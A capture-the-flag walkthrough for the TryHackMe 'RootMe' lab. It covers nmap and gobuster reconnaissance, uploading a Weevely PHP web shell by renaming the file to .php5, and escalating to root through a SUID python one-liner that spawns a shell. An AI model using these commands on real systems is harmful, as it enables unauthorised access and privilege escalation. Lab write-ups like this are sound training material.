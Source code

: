 # CTF-Write-up

## Try Hack Me - RootMe

##### URL: https://tryhackme.com/room/rrootme

##### Created by _ReddyyZ_

![logo](https://user-images.githubusercontent.com/20625004/109557761-31670f00-7ae1-11eb-8e3f-0d225c8b0f8c.PNG)

You should deploy the machine first.
 
Run nmap against the target machine.

```nmap <target IP>```

![nmap](https://user-images.githubusercontent.com/20625004/109558163-ba7e4600-7ae1-11eb-9b88-719a011b0674.PNG)

We have the first answers to the relevant questions.

Next we fire up gobuster in order to seach for paths in the web application that will help us to map the app.

```gobuster dir -u <target IP> -w <wordlist location>```

![gobuster](https://user-images.githubusercontent.com/20625004/109559704-acc9c000-7ae3-11eb-8d7f-a6f6d609972d.PNG)

We access the panel path and we observe that we can upload files.

![panel](https://user-images.githubusercontent.com/20625004/109559603-8b68d400-7ae3-11eb-838e-27ba5fb39bb4.PNG)

Getting a shell.

Lets try uploading a file containing a reverse shell script written in php. 

I used the Weevely tool, found at  https://github.com/epinna/weevely3. 

```weevely generate <pass> <path>/file1.php5```

Note that when we first try to upload this file as .php, we get an error message saying that we cannot upload this type of file.
After some trial and errors by changing the extension “.php” to “.php5”. we can upload the file.

![upload](https://user-images.githubusercontent.com/20625004/109560562-b6075c80-7ae4-11eb-8e48-8c937299d3b3.PNG)

The we connect with Weevely to the target system.

```weevely <Target Path> <pass that we used in the previous step>```

![shell](https://user-images.githubusercontent.com/20625004/109560957-2dd58700-7ae5-11eb-80b4-7b9450463b45.PNG)

Now that we have access we search for the first flag user.txt

```find -name \user.txt```

```THM{********************}```

![1flag](https://user-images.githubusercontent.com/20625004/109561227-8b69d380-7ae5-11eb-9709-9f5bd3475e0e.PNG)
 
 And we have our first flag.
 
 Now for the second one.
 
 Digging around showed that we need to find a different way to get the root flag. We search for all files with the suid permission.
 
 ```find . perm /4000```
 
 It will provide us with a list of files with the suid set. The one that we can abuse is ```/usr/bin/python```.
 
 Check also https://gtfobins.github.io/gtfobins/python/#shell for more information.
 
 run ```/usr/bin/python -c ‘import os; os.execl(“/bin/sh”, “sh”, “-p”)’```
 
 and now ```cat /root/root.txt``` 
 
 ```THM{********************}```
 
 And now we have all the flags.

